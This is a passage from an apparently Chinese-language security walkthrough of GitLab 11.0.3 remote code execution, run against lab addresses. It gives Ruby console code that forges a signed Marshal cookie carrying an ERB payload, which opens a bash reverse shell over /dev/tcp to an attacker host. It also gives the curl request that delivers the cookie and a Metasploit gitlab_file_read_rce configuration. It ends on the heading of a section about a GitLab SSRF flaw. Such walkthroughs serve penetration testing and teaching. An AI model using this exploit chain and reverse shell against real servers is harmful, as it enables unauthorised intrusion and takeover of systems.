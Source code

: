 在本机启动一个gitlab，此处我的版本为11.0.3，建议本机启动的版本与目标机版本一致。将本地的/opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml  
进行替换，我这里只替换了其中的secret_key_base  
。  
  
然后终端输入gitlab-rails console  
 进入rails console：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CFEQEjGaicCNtyJmLOHDMZcrfrTvtfsKc7ibpEgHDFGBu48wRibl0tBypicGnb8sR88XNxjTJUeEj4AHv6xbHib4pnQ/640?wx_fmt=png&from=appmsg "")  
  
在console中依次输入：  
```
request = ActionDispatch::Request.new(Rails.application.env_config)
request.env["action_dispatch.cookies_serializer"] = :marshal
cookies = request.cookie_jar
erb = ERB.new("<%= `bash -c 'bash -i >& /dev/tcp/10.211.55.3/9999 0>&1'` %>")
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
cookies.signed[:cookie] = depr
puts cookies[:cookie]
```  
  
会获得一个cookie：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CFEQEjGaicCNtyJmLOHDMZcrfrTvtfsKc357KVID03X3n8uDpKBsqsE5EsgyLXG2LHhxMjsJsZNu5XXLv3SChBg/640?wx_fmt=png&from=appmsg "")  
  
注意：在console中进行输入时，命令会被执行一次，故获取到cookie后再进行监听  
  
然后在kali 10.211.55.3上开启监听，本机上携带cookie访问：  
```
curl -vvv 'http://10.211.55.5/users/sign_in' -b "experimentation_subject_id=cookie"
```  
  
攻击机上收到shell：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CFEQEjGaicCNtyJmLOHDMZcrfrTvtfsKcibJicVUCrnfr53pAJbib1yRYR9aGSxDWTiboGyzNH37aZuCwxMoxSiak4uw/640?wx_fmt=png&from=appmsg "")  
  
msf中也集成了从文件读取到RCE的模块，也可用msf一键RCE（机智）：  
```
msfconsole
use exploit/multi/http/gitlab_file_read_rce
set payload generic/shell_reverse_tcp
set rhosts 10.211.55.5
set USERNAME test
set PASSWORD test1234
set lhost 10.211.55.3
set lport 12345
exploit
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CFEQEjGaicCNtyJmLOHDMZcrfrTvtfsKcUducsFXsQv13L74icZhouKht4jsibRUhuAiavrEbg0OzKrQFLylRPAGjA/640?wx_fmt=png&from=appmsg "")  
## 0x05 GitLab CI Lint API 未授权SSRF漏洞（CVE-2021-22214）  
### 一、漏洞描述  
  